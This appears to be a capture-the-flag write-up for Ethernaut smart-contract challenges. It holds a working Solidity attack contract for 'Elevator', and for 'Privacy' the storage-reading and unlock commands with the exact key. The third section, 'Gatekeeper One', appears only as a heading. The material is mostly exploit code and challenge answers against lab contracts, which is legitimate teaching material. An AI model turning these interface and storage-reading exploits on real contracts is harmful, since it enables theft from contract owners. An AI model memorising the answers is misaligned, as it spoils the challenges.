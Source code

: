 # Elevator

Since `Elevator.sol` never implemented `isLastFloor` from the `Building` interface, we can create a `Building` contract that implements the function. So, when we invoke `goTo` from our `Building` contract, it will use our definition of `isLastFloor`.
- the `goTo(uint)` function calls `isLastFloor` twice, and we need it to return `false`, then `true`. We can just store a counter variable `timesCalled`
- `forge create src/AttackElevator.sol:Building --verify`

```solidity
pragma solidity ^0.8.10;

interface IElevator{
    function goTo(uint _floor) external;
}

contract Building{    
    uint timesCalled;        
    IElevator public elevator;
    
    function isLastFloor(uint) external returns (bool) {
        timesCalled++;
        if (timesCalled > 1){
            return true;    
        }
        else {return false;}
    }
    function attack(address _victim) public {
        elevator = IElevator(_victim);
        elevator.goTo(1);
    }
}
```
****
# Privacy

Each storage slot in Ethereum contracts is 32 bytes. The first bool will take the entire first slot, since the following `uint256` variable = 256 bits = 32bytes so it also occupies its own slot. Both `uint8` variables, and the following `uint16` can be packed together into one slot. We thus need to take the 6th slot, corresponding to `data[2]` which is a `bytes32` type.
- `cast storage <challenge_addr> 5` returns `bytes32 data[2]` = `0xf92a248e0a7e36a498030961667f3e29 ba5029a60fec66b27534a24225ad5241`
- big endian ordering (stored starting on left side) applies for strings and bytes, while little endian (start storing on the right) applies for bool, numbers, addresses
- Hence, `byte16(data[2])` = `0xf92a248e0a7e36a498030961667f3e29` (ie. take the left-half due to big-endian order for `bytes32` type)    
- `cast send <challenge_addr> "unlock(bytes16)" 0xf92a248e0a7e36a498030961667f3e29` solves the challenge

****
# Gatekeeper One
